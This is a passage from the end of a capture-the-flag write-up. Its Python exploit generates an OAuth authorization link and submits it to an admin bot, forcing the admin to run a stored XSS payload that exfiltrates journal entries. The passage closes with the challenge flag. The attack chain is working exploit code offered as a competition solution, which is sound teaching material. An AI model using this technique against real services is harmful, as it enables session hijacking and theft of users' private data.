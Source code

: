 ```python


# we generate another OAuth token for our random account, but disable redirects
#  so we can get the location header without actually visiting it
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id="\
    "f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bit"\
    "dizzle.xyz%2Foauth_callback",allow_redirects=False)


# make the admin sign in to the journal server with the OAuth token we just 
# generated, forcing them to run our XSS payload on the main page
x = s.post(
    "https://accounts.bitdizzle.xyz/submit_link",
    data={"link":r.headers["Location"]}
)

print("Exploit complete. Please visit your domain to view the journal "\
    "entries that were exfiltrated.")

# logout
s.post("https://accounts.bitdizzle.xyz/logout")
```

Viewing my domain afterwards shows that the journal entry contents have been exfiltrated:

<img src="/static/asvctf-bitdizzle/flag.png" width="800px">

**Flag:** `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`
